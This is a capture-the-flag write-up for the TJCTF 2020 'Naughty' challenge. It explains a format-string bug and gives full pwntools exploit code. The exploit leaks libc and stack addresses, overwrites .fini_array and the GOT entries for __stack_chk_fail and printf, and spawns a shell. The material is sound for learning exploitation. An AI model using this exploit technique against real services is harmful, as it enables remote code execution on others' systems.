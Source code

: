 # Naughty Writeup

Naughty was the final pwn in TJCTF 2020. It was an interesting and nice format
string pwn problem. Let us begin by reversing it:  
```c  
int __cdecl main(int argc, const char **argv, const char **envp)  
{  
 char s; // [esp+0h] [ebp-10Ch]  
 unsigned int v5; // [esp+100h] [ebp-Ch]  
 int *v6; // [esp+104h] [ebp-8h]

 v6 = &arg;;  
 v5 = __readgsdword(0x14u);  
 puts(  
   "  _  _                     __ _   _        _       _  _
_  _      _                      ___   ");  
 puts(  
   " | \\| |   __ _    _  _    / _` | | |_     | |_    | || |    o O O   ___      _ _     o O O | \\| |    (_)     __   "  
   "   ___    |__ \\  ");  
 puts(  
   " | .` |  / _` |  | +| |   \\__, | | ' \\    |  _|    \\_, |   o       / _ \\    | '_|   o      | .` |    | |    / _|"  
   "    / -_)     /_/  ");  
 puts(  
   " |_|\\_|  \\__,_|   \\_,_|   |___/  |_||_|   _\\__|   _|__/   TS__[O]
\\___/   _|_|_   TS__[O] |_|\\_|   _|_|_   \\"  
   "__|_   \\___|   _(_)_  ");  
 puts(  
"_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|
\"\"\"\"| {======|_|\"\"\"\"\"|_|\""  
   "\"\"\"\"|
{======|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"| ");  
 puts(  
   "\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'./o--
000'\"`-0-0-'\"`-0-0-'./o--000'\"`-0-0-'\"`-0-0-"  
   "'\"`-0-0-'\"`-0-0-'\"`-0-0-' ");  
 puts("What is your name?");  
 fflush(stdout);  
 fgets(&s, 256, stdin);  
 printf("You are on the NAUGHTY LIST ");  
 printf(&s);  
 return 0;  
}  
```

As you can see, there is a clear format string bug in the last printf call.
Taking a look at checksec:  
```  
   Arch:     i386-32-little  
   RELRO:    No RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
```  
We can just do GOT overwrite to overwrite printf and gain code execution.
However, the only issue is that nothing is called after printf; the program
just finishes then. However, I did note the canary part of this, which can
trigger another function known as `__stack_chk_fail` when the canary check
fails. I also knew about the .fini section, which has its contents triggered
during normal process termination. This part as well as .init are handled by
the runtime linker.

To overwrite the canary, we will first need a stack leak, which is not
possible at this stage (without causing the program to just terminate). Since
their binary does not have PIE enabled, I decided to target the .fini section.
At this point, I also found another similar writeup:
https://wumb0.in/mmactf-2016-greeting.html related to overwriting contents of
`.fini_array`. Just like that problem, I overwrote
`__do_global_dtors_aux_fini_array_entry` in that section with `main`. This
way, the program will then go back to main during the "termination" phase. The
offset for the overwrites can be determined with the standard format string
technique of sending in `ABCD %p %p %p...` and seeing where that first value
reappears. The offsets for leaking libc and stack can be determined with the
following basic script, from which I just dumped the output and took a quick
look at possible libc and stack address values:  
```py  
from pwn import *

for i in range(500):  
	p = process('./naughty')  
	p.recvuntil('name?\n')  
	p.sendline("%" + str(i) + "$p")  
	print "index: " + str(i)  
	print p.recvall()  
```

Now, when we go back to main, we cannot just overwrite printf GOT with system
and then expect main to return. Since .init and .fini are handled by the
runtime linker, and all we did was make it call main upon termination, the
correct setup to trigger the .fini section again is not done and the program
will just end after the second call to main finishes; we need to find another
way to redirect back to main. I decided to target the canary now. With the
stack leak, I can determine the offset to the canary. I overwrite that with a
random value to trigger the canary failure function, which I also overwrote
with main in the same format string. I also overwrote printf with system
(whose address is determined from the libc leak) in the same payload at this
point. Afterwards, it should loop back to main again. Now printf is system, so
simply typing /bin/sh should pop shells.

A note about libc. The address I leaked is `_IO_2_1_stdin_`. Since my system
libc is different from the docker libc, I needed to figure out the remote libc
with libc database. But I also noticed that in the previous dockers on this
CTF, most if not all the libcs were the same, so I just made an assumption
about the libc which turned out to be correct. Note that the stack setup ended
up turning out different from my local and remote version, so I just
patchelf'd the file with the correct libc and linker and re-debugged there.
Here is my final exploit:  
```py  
from pwn import *

context(arch='i386')  
bin = ELF('./naughty')  
libc = ELF('libc-2.27.so')  
p = remote('p1.tjctf.org', 8004)

p.recvuntil('name?\n')  
write1 = {0x08049bac:bin.symbols['main']}  
payload = fmtstr_payload(7, write1) + "pepega %2$p poggers %81$p" #pepega is
my marker for libc, poggers is my marker for stack  
print payload  
p.sendline(payload)  
p.recvuntil('pepega ')  
leak = int(p.recv(10), 16)  
libc.address = leak - libc.symbols['_IO_2_1_stdin_']  
log.info("Leak: " + hex(leak))  
log.info("Base: " + hex(libc.address))

p.recvuntil('poggers ')  
canary = int(p.recv(10), 16) - 408 #offset from this stack leak to canary  
log.info("Canary address: " + hex(canary))

write2 = {canary:0xdeadbeef, bin.got['__stack_chk_fail']:bin.symbols['main'],
bin.got['printf']:libc.symbols['system']}  
payload = fmtstr_payload(7, write2)  
p.recvuntil('name?\n')  
p.sendline(payload)  
p.recvuntil('name?\n')  
p.sendline("/bin/sh")  
p.interactive()

```  
Fun challenge overall!  

Original writeup
(https://github.com/BirdsArentRealCTF/Writeups/tree/master/tjctf2020/naughty).